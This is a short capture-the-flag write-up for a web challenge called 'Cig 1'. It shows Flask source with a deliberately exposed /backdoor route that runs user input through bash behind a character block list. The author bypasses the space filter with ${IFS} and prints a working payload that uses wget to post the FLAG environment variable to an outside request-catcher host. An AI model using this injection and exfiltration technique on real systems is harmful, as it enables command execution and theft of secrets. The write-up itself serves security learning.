


# Cig 1
### Web - Easy+

- So continuing on last challenge but with more pepper! we have some blocked characters `blocked = \[";", "&", "``", "|", " ", "'", '"', ">", "<"\]`
- 

<details>
<summary>Reveal Code</summary>
```python

from flask import Flask, render_template, request, redirect
import os
import re
import string

app = Flask(\_\_name\_\_)


@app.route("/setenv", methods=\["GET"\])
def setenv():
    var = request.args.get("var")
    value = request.args.get("value")
    if var is None or var is None:
        return redirect("/")

    os.environ\[var\] = value
    # Harmless logging technique
    os.system("env > /tmp/env.txt")
    return redirect("/")


@app.route("/backdoor", methods=\["GET"\])
def cmd():
    blocked = \[";", "&", "`", "|", " ", "'", '"', ">", "<"\]
    cmd = request.args.get("cmd")
    if cmd is None:
        return redirect("/")

    for b in blocked:
        if b in cmd:
            return redirect("/")

    os.system(f"bash -c '{cmd}'")
    return redirect("/")


@app.route("/")
def show\_source\_code():
    with open(\_\_file\_\_, "r") as f:
        source_code = f.read()
    return render\_template("hello.html", source\_code=source_code)


if \_\_name\_\_ == "\_\_main\_\_":
    port = int(os.environ.get("PORT", 5000))
    app.run(debug=False, host="0.0.0.0", port=port)
```

</details>

- So now we have to bypass this! let's go!
- our last payload from cig 0 works all good except we can't use spaces! haha guess what I saw a John Hammod video some time ago about this issue! I introduce to you the `${IFS}` environment var! which is basically a whitespace! so now we just need to replace all the spaces in our payload with that
- `/backdoor?cmd=wget${IFS}--post-data=$(echo${IFS}$FLAG)${IFS}ayham.requestcatcher.com/` here we go!
- 
- VOILA!!!